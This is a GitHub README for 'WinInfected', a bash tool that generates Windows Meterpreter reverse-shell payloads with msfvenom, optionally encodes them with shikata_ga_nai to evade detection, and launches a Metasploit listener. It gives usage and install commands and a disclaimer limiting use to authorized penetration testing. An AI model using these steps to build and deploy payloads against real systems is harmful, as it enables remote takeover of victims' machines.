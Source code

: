 # WinInfected v1.2

WinInfected is a bash script that automates the generation of a Windows Meterpreter payload using `msfvenom` from the Metasploit Framework. The script supports payload obfuscation via the `x86/shikata_ga_nai` encoder (with 5 iterations) when the `--obfuscate` option is specified. It also offers convenient options for checking and installing dependencies, updating the required packages, and launching `msfconsole` with a pre-configured multi/handler.

## Features

- **Payload Generation:** Create a Windows Meterpreter payload using `msfvenom`.
- **Optional Obfuscation:** Use the `x86/shikata_ga_nai` encoder with 5 iterations for payload obfuscation.
- **Dependency Management:** Check for and install missing dependencies (Metasploit Framework).
- **Script Update:** Update dependencies with a single command.
- **Automated Listener:** Optionally launch `msfconsole` with a configured multi/handler to listen for incoming connections.
- **Current Directory Output:** The generated payload is saved in the current working directory with a timestamped filename.

## Usage

## Script Options

```bash
WinInfected v1.2
Usage: ./wininfected [LHOST] [LPORT] [--obfuscate]
Options:
  --dependencies   Check and install missing dependencies.
  --update         Update script and dependencies.
  --obfuscate      Enable payload obfuscation using x86/shikata_ga_nai encoder.
  -h, --help       Display this help message.
  More information: https://github.com/byfranke/wininfected
```

## Steps to Run:

```bash
git clone https://github.com/byfranke/wininfected.git
```

```bash
cd wininfected
```
```bash
chmod +x installer.sh
```

```bash
sudo ./installer.sh
```

Install Dependencies (if needed):
```bash
./wininfected --dependencies
```

Generate a Payload:

Without Obfuscation:
```bash
./wininfected <LHOST> <LPORT>
```

With Obfuscation:
```bash
./wininfected <LHOST> <LPORT> --obfuscate
```

Replace `<LHOST>` with your local host IP and `<LPORT>` with your desired port number.

Launch Listener (Optional): After the payload is generated, the script will prompt:

Do you want to start msfconsole to listen for connections? (y/n):
Enter `y` to launch `msfconsole` with a pre-configured multi/handler, or `n` to exit.

## Dependencies
- Metasploit Framework: Provides both `msfvenom` and `msfconsole`.
Installation (on Debian-based systems):

```bash
sudo apt update && sudo apt install metasploit-framework -y
```

**Notes**
- The generated payload is stored in the current working directory with a filename based on the current timestamp.
- Ensure you run the script with the appropriate permissions to install packages and execute commands.
- This tool is designed for educational purposes and authorized penetration testing only.

## Disclaimer
- **WARNING:** This script is intended for legal, ethical, and authorized penetration testing only. The author is not responsible for any misuse or damage caused by this tool.
